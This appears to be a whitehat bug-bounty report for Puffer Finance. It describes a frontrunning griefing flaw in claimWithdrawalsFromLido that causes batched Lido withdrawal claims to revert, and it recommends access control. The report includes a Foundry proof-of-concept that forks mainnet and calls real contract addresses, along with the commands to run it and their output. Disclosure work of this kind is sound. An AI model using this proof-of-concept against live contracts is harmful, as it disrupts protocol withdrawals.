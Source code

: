 # User can frontrun claim transaction to make claim failed if the protocol wants to claim multiple request Id in batch.
Submitted about 2 months ago by @ladboy233 (Whitehat) for Boost | Puffer Finance

Report ID: #28698
Report type: Smart Contract
Has PoC? Yes
Target: https://etherscan.io/address/0xd9a442856c234a39a81a089c06451ebaa4306a72

# Impacts
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

# Details
Description
https://etherscan.io/address/0x39ca0a6438b6050ea2ac909ba65920c7451305c1#code#F1#L106

```
  function claimWithdrawalsFromLido(uint256[] calldata requestIds) external virtual {
        VaultStorage storage $ = _getPufferVaultStorage();

        // Tell our receive() that we are doing a Lido claim
        $.isLidoWithdrawal = true;

        for (uint256 i = 0; i < requestIds.length; ++i) {
            bool isValidWithdrawal = $.lidoWithdrawals.remove(requestIds[i]);
            if (!isValidWithdrawal) {
                revert InvalidWithdrawal();
            }

            // slither-disable-next-line calls-loop
            _LIDO_WITHDRAWAL_QUEUE.claimWithdrawal(requestIds[i]);
        }

        // Reset back the value
        $.isLidoWithdrawal = false;
        emit ClaimedWithdrawals(requestIds);
    }
```

Once the admin request the claim via LIDO withdrawal queue

anyone can call the function claimWithdrawalsFromLido and pass in an array of requests Ids to claim the ETH.

the code loops through the request Ids and call

`_LIDO_WITHDRAWAL_QUEUE.claimWithdrawal(requestIds[i]);`
one by one,

the problem is that suppose admin / protocol wants to withdraw using request Id [10000, 10001 and 10002]

malicious user can frontrun the claimWithdrawalsFromLido and calls the function with only the request Id [10000]

then when the admin's request execute, the whole transaction will revert because we cannot withdraw ETH using the request id 10000 twice.

the recommendation is adding access control to the function claimWithdrawalsFromLido

# Proof of concept

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "forge-std/console.sol";

interface ILidoWithdrawalQueue {
    function requestWithdrawals(uint256[] calldata _amounts, address _owner)
        external
        returns (uint256[] memory requestIds);

    function claimWithdrawal(uint256 _requestId) external;
}


contract CounterTest is Test {

    function setUp() public {

    }

    function withdrawETH(uint256[] memory requestIds) public {

        address user = 0xE5350E927B904FdB4d2AF55C566E269BB3df1941;
        
        vm.startPrank(user);

        for (uint256 i = 0; i < requestIds.length; i++) {
            ILidoWithdrawalQueue lido = ILidoWithdrawalQueue(0x889edC2eDab5f40e902b864aD4d7AdE8E412F9B1);
            lido.claimWithdrawal(requestIds[i]);
        }

        vm.stopPrank();

    }

    function testWithdrawalRegular() public {

        // block number 19290411
    
        address user = 0xE5350E927B904FdB4d2AF55C566E269BB3df1941;

        ILidoWithdrawalQueue lido = ILidoWithdrawalQueue(0x889edC2eDab5f40e902b864aD4d7AdE8E412F9B1);

        uint256[] memory requestIds = new uint256[](2);
        requestIds[0] = 27139;
        requestIds[1] = 27140;
        
        withdrawETH(requestIds);

    }

    function testWithdrawalFrontrun() public {

        // block number 19290411
    
        address user = 0xE5350E927B904FdB4d2AF55C566E269BB3df1941;

        ILidoWithdrawalQueue lido = ILidoWithdrawalQueue(0x889edC2eDab5f40e902b864aD4d7AdE8E412F9B1);

        uint256[] memory requestIds = new uint256[](2);
        requestIds[0] = 27139;
        requestIds[1] = 27140;
        
        uint256[] memory frontrunIds = new uint256[](1);
        frontrunIds[0] = 27139;

        withdrawETH(frontrunIds);

        withdrawETH(requestIds);

    }
}
```

first we can run

`forge test -vvv --match-test "testWithdrawalRegular" --fork-url https://eth.llamarpc.com --fork-block-number 19290411`
and the output is

```
[⠢] Compiling...
No files changed, compilation skipped

Running 1 test for test/Counter.t.sol:CounterTest
[PASS] testWithdrawalRegular() (gas: 85592)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 12.00ms
```

that is fine, user wants to withdraw with request id 27139 and 27140

However, if we run

`forge test -vvv --match-test "testWithdrawalFrontrun" --fork-url https://eth.llamarpc.com --fork-block-number 19290411`
transaction revert, because before user withdraw with request id [27139, 27140]

user can frontrun and only withdraw [27139]

```
      uint256[] memory requestIds = new uint256[](2);
        requestIds[0] = 27139;
        requestIds[1] = 27140;
        
        uint256[] memory frontrunIds = new uint256[](1);
        frontrunIds[0] = 27139;

        withdrawETH(frontrunIds);

        withdrawETH(requestIds);
```
